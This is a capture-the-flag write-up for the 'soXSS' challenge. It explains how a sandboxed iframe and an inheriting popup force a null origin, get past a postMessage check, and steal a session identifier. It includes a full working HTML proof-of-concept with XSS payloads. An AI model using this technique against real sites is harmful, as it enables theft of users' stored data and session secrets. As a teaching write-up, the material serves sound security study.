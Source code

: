 # soXSS - writeup

## Introduction

The [challenge](https://twitter.com/terjanq/status/1446500485142355972) consisted of two components:
1. Text input for HTML notes.
2. Rendered HTML page from textarea, rendered inside an iframe.

The embedded iframe was within the same origin, but data sent to it was sanitized by [DOMPurify](https://github.com/cure53/DOMPurify).

## The idea

The idea for the challenge was rather simple:
1. Bypass the below snippet included inside iframe.
```js
const identifier = '4a600cd2d4f9aa1cfb5aa786';
onmessage = e => {
  const data = e.data;
  if (e.origin !== window.origin && data.identifier !== identifier) return;
  if (data.type === 'render') {
    renderContainer.innerHTML = data.body;
  }
}
```
2. Steal the identifier.
3. Steal the saved note from the main page with a valid identifier.

*💡 The name of the challenge - soXSS - was referring to Same-Origin XSS.*

## The solution

One could [notice](https://so-xss.terjanq.me/index.php?source) that the identifier was stored in a user's session and the session cookie was set to Lax. To solve the challenge the intended way was to bypass the following check `e.origin !== window.origin`. When `//example.org` is embeded into a sandboxed iframe, then the page's origin will be `null`, i.e. `window.origin === 'null'`. So just by embedding the iframe via `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">` we could force the `null` origin, only if the page was embeddable and cookies set to `SameSite=None`, but it wasn't the case for the challenge. The lesser known fact is that when the sandbox value `allow-popups` is set then the opened popup will inherit all the sandboxed attributes unless `allow-popups-to-escape-sandbox` is set. And that is the solution to the challenge: 
1. From a sandboxed page open a popup to `https://so-xss.terjanq.me/iframe.php`.
2. From any other `null` origin send a simple XSS to the popup and steal the identifier.
3. Open `https://so-xss.terjanq.me/iframe.php` and send XSS with stolen identifier so the origin is `so-xss.terjanq.me`.

All the steps are included in the below simple [PoC](https://so-xss-hof.terjanq.me/poc.html):

```html

<body>
  <script>
    f = document.createElement('iframe');
    f.sandbox = 'allow-scripts allow-popups allow-top-navigation';
    const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
      x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
    },1000);`.replaceAll('\n',' ');
    f.srcdoc = `
    <h1>Click me!</h1>
    <script>
      onclick = e => {
        let w = open('https://so-xss.terjanq.me/iframe.php');
        onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
        setTimeout(_ => {
          w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
        }, 1000);
      };
    <\/script>
    `
    document.body.appendChild(f);
  </script>
</body>
```

## Credits
The challenge was created by [NDevTK](https://twitter.com/ndevtk) and [terjanq](https://twitter.com/terjanq).
